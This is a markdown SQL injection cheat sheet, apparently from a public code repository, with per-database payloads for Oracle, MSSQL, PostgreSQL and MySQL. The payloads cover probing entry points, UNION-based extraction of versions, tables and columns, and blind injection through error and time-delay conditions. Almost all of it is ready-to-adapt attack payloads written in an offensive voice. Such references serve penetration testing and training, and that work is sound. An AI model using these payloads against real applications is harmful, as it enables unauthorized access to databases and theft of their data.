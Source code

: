 # Check for SQLi
## Determine entry point
**All SQL types:**
```
'
"
`
')
")
`)
'))
"))
`))
```
## Comments after query injection
**Oracle:**
```sql
--comment
```
**PostgreSQL, MSQL, MySQL, SQLite:**
```sql
-- comment [note the space after the double hyphen]
/*comment*/
```

# Union Based SQL Injection
If you can see the output of your SQL query then this is the best way to exploit it ╰(*°▽°*)╯

## Get number of columns
**MySQL, MSQL, PostgreSQL:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
## Get database versions
**Oracle:**
```sql
SELECT banner FROM v$version
SELECT version FROM v$instance
```
**MySQL, MSQL:**
```sql
SELECT @@version
```
**PostgreSQL:**
```sql
SELECT version()
```
## Get all tables
**Oracle:**
```sql
SELECT * FROM all_tables
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.tables
```
## Get all columns
**Oracle:**
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
## Concatenate strings
**Oracle, PostgreSQL:**
```sql
'foo'||'bar'
```
**MSQL:**
```sql
'foo'+'bar'
```
**MySQL:**
```sql
'foo' 'bar' -- Note the space between the two strings
CONCAT('foo','bar')
```

# Blind SQLi
If you cant see the output of your query then try these （￣︶￣）↗　

*These are not copy-pastable , you'll need to modify them to fit your already-working injection*

## Check your query can trigger an error response from the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```
**MSQL:**
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END
```
**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (1=2) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```
**MySQL:**
```sql
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

## Check your query can cause a time delay in the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
**MSQL:**
```sql
IF (1=1) WAITFOR DELAY '0:0:10' 
```
**PostgreSQL:**
```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
**MySQL:**
```sql
SELECT IF(1=1,SLEEP(10),'a')
```

